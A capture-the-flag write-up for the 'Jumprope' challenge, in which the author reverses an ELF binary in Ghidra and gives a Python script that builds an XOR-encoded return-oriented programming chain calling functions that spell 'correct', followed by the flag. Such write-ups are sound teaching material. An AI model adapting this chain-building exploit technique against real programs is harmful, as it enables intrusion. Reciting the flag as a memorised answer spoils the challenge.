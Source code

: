 # Jumprope

We are given a `ELF` file.

By putting that file in ghidra.

We can see there are `c , o , r , e , t` functions

The function will form word `correct`

If we make these functions `c , o , r , r , e , c , t`.

It is more of PWN. using the script we can get the flag.

```py
from pwn import *
import sys

l = [133, 77, 240, 104, 13, 145, 123, 49, 203, 56, 213, 149, 244, 231, 219, 129, 194, 38, 120, 180, 134, 200, 189, 152, 101, 156, 234, 74, 250, 243, 237, 64, 97, 19, 60, 90, 67, 228, 94, 204, 50, 78, 117, 37, 253, 249, 118, 160, 176, 9, 30, 173, 33, 114, 47, 102, 25, 167, 186, 146, 254, 124, 59, 80, 216, 4, 143, 214, 16, 185, 23, 179, 140, 83, 93, 73, 127, 190, 29, 40, 108, 130, 71, 107, 136, 220, 139, 89]
buf = [0xfd, 0x3c, 0xc4, 0xe, 0x76, 0xff, 0x4b, 0x45, 0x1f, 0x40, 0xf4, 0xe6, 0x80, 0xb8, 0xb5, 0xe8, 0x76, 0x8e, 0x3b, 0xf8, 0xe4, 0xbd, 0xc9, 0xc7, 0x3f, 0xe6, 0xcf, 0x15, 0x94, 0x9a, 0x8a, 0x28, 0x4e, 0x5e, 0x1e, 0x3f, 0x25, 0xd4, 0x2c, 0xa9, 0x36, 0x28, 0x42, 0x40, 0x93, 0x8d, 0xf, 0xff, 0xae, 0x2b, 0x2b, 0xdf, 0x7e, 0x1a, 0x4e, 0x5, 0x63, 0xd0, 0x88, 0xe1, 0xa1, 0x1f, 0x5a, 0x3d, 0x36, 0x4f, 0xae, 0x89, 0x7b, 0xd7, 0x27, 0xd0, 0x29, 0xc0, 0x9e, 0xf0, 0x20, 0xdf, 0x69, 0x77, 0x94, 0xe9, 0x58, 0xf, 0xb8, 0xec, 0xf9, 0x24]

c = 0x401211
o = 0x40122E
r = 0x40125B
e = 0x401278
t = 0x401295
pop_rdi = 0x000000000040148b #: pop rdi; ret; 

p = (c).to_bytes(8, byteorder='little')
p += (pop_rdi).to_bytes(8, byteorder='little')
p += (0x1337C0D3).to_bytes(8, byteorder='little')
p += (o).to_bytes(8, byteorder='little')
p += (r).to_bytes(8, byteorder='little')
p += (r).to_bytes(8, byteorder='little')
p += (e).to_bytes(8, byteorder='little')
p += (c).to_bytes(8, byteorder='little')
p += (pop_rdi).to_bytes(8, byteorder='little')
p += (0xDEADFACE).to_bytes(8, byteorder='little')
p += (t).to_bytes(8, byteorder='little')

x = []
for i in range(len(p)):
    x.append(p[i] ^ (buf[i] ^ l[i]))
sys.stdout.buffer.write(bytes(x))
```

FLAG:- ``ictf{n0t_last_night_but_the_night_bef0re_twenty_f0ur_hackers_came_a_kn0cking_at_my_d00r}``
